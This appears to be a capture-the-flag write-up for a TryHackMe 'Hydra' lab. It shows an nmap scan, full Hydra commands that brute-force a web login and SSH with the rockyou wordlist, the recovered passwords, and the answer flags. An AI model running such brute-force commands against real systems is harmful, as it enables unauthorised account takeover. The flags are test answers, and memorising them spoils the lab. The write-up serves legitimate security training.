


# Hydra

* IP = 10.10.40.32

## Questions/Tasks:

* **Nmap Scan Results:**
`nmap -sC -sV -vv $IP`

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c2:0f:c1:2e:9d:55:c7:9c:fe:97:d9:14:2b:74:de:c2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwl3Ps7KnoQsk4aCDQtXbrYq05p+oU7qxNPCasiFPWGhq0Z+BVoEfFH8MtDinNIVly80V4DNttyN68Vbd2ggk/4Dbxl0gITYPBt4ZSsisw4tUmp8QALfoqCpzQtlfchR6W3I3J1fRE2p7QEbacQ0e2YMZxI4kpCWnzS8sQZW0fXhysGXMIOscpLyCVXRkhdeZudNM9gO1zfITaNksskyq8x9wUgG7dunBHUvDmpfDt1K+G1pAr+bnqPnoKx9xzP1covVRa3dJr8NXyUOlcyzWoGQi0inO7pVw5KU60iVRno4LVHXEFlj232QxQOavB3Mu7cjX8SJBrF504NsfcQ/Kl
|   256 be:b0:4d:7b:b6:40:1c:04:90:90:a8:7a:10:6d:48:11 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBAJiIdYrZGQc2pcub61izSMj3q9sLMJGbQhU0QZIzlBS9H3fXTKnHqITFm7HN4Jn2EDUkmoBE5jZ5c0K89d99w=
|   256 b0:37:4e:c6:62:7c:ad:3f:97:8c:0a:94:28:ca:3d:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAMUK6zl+BFKYAEUSZgK97nqbvgRWtq8TUv2xjto1ixi
80/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Hydra Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Use this command:`hydra -l molly -P rockyou.txt 10.10.40.32 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V`, to bruteforce login.
* Password found:`sunshine`<br>

* Login with `molly` and `sunshine` to get the first flag.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* Use this:`hydra -l molly -P rockyou.txt -f 10.10.40.32 ssh -V` to bruteforce login.<br>

* SSH into server as `molly` and use `butterfly` as password.
* Find flag2 there itself.

```
THM{c8eeb0468febbadea859baeb33b2541b}
```
